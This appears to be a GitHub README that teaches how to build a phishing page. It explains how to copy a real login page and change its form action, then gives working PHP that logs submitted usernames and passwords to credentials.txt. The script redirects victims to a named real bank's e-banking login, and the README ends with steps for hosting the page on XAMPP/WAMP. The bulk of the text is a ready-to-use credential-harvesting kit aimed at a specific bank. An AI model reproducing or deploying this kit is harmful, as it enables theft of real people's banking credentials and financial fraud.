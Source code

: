 # phishing


What phishing website does?

Phishing is get sensitive data like passwords, credit card details using fake websites and emails. This is the good example to social 
engineering because this fake website same as the original web site. So user easily caught this unauthorized websites. 



How to host the phishing page on our computer using XAMPP/WAMP ?

1) Open the website in the browser for which you want to create a phishing page. Right click and save as index.html.

2) Then open that html in a note pad. Now search string "action" and change address to validate.php

                   <form action="validate.php" method="post">

3) Now open notepad, type following code in it and save it as validate.php. This is create for store credentials.

                    <?php
                    $username = $_POST["username"];
                    $password = $_POST["passwd"];
 
                    //Get credentials to .txt file
                    $myfile = fopen("credentials.txt", "a") or die("Unable to open file!");
                    $txt = "USERNAME = $username , PASSWORD = $password\n";
                    fwrite($myfile, "\n". $txt);
                    fclose($myfile);
 
                    //Redirect the browser to original login page
                    header("Location: https://www.ebank.peoplesbank.lk/eb/index.html");
 
                    exit();

                    ?>

4) Then create credentials.txt file to store these credentials.

5) Host that created files to XAMMP/WAMP.

6) Then run that phishing website on browser and enter credentials.

7) That credentials store credentials.txt file.








